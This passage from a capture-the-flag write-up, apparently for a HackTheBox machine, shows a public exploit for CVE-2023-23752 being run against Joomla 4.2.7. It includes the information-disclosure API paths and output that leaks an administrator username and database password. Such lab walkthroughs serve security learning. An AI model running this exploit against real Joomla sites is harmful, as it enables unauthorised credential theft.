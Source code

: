 ```console
$ echo 10.10.11.3 office.htb dc.office.htb | sudo tee -a /etc/hosts
```

## Joomla Website
Browsing to the website, we land on a `Joomla! CMS` page for "Tony Stark's Iron Man Company". We check the version by going to `http://10.10.11.3/administrator/manifests/files/joomla.xml` and find it to be running on version `4.2.7`.

![Joomla Version](../assets/images/writeups/office/joomla-version.png)

Looking for vulnerabilities for this specific version we find a PoC script for `CVE-2023-23752` on [GitHub](https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT). Running the script we find a password and a username.

```console
$ python CVE-2023-23752.py -u http://10.10.11.3
┏┓┓┏┏┓  ┏┓┏┓┏┓┏┓  ┏┓┏┓━┓┏━┏┓
┃ ┃┃┣ ━━┏┛┃┫┏┛ ┫━━┏┛ ┫ ┃┗┓┏┛
┗┛┗┛┗┛  ┗━┗┛┗━┗┛  ┗━┗┛ ╹┗┛┗━
Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ

[*] Checking if target is vulnerable
[+] Target is vulnerable
[*] Launching exploit against: http://10.10.11.3
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for usernames at path: /api/index.php/v1/users?public=true
[+] Target is vulnerable for usernames
[+] Gathering username(s) for: http://10.10.11.3
[+] Username: Administrator
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for passwords at path: /api/index.php/v1/config/application?public=true
[+] Target is vulnerable for passwords
[+] Gathering password(s) for: http://10.10.11.3
[+] Password: H0lOgrams4reTakIng0Ver754!
```
Trying to login as the `Administrator` account with this password fails. Looking at the endpoint where this password was found, it looks like this is the password for the Joomla database, so for now we proceed.
